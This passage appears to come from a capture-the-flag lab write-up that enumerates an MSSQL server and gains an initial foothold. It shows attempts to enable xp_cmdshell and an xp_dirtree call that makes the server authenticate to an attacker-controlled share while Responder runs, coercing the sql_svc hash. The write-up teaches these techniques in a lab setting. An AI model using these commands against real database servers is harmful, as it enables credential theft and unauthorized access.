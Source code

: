 Looking through the master database doesn't get us anything useful.

There are no tables in the tempdb database.

We don't have access to the model database.

So that leaves us with the msdb database to look through, and after we do, there is also no useful information there either.

I try and see if we have xp_cmdshell or can configure it, and we don't have access.

`xp_cmdshell dir`

`EXEC sp_configure 'show advanced options', 1;`

![](images2/escape7.png)

<br>

## Initial Foothold

I've seen other people setup responder and coerce a hash, and this method works and gets us a hash back for the sql_svc user.

First setup responder on Kali:

`sudo responder -I tun0 -v`

Then run this from the database:

`exec xp_dirtree '\\10.10.14.76\fakesharename', 1, 1;`

![](images2/escape8.png)
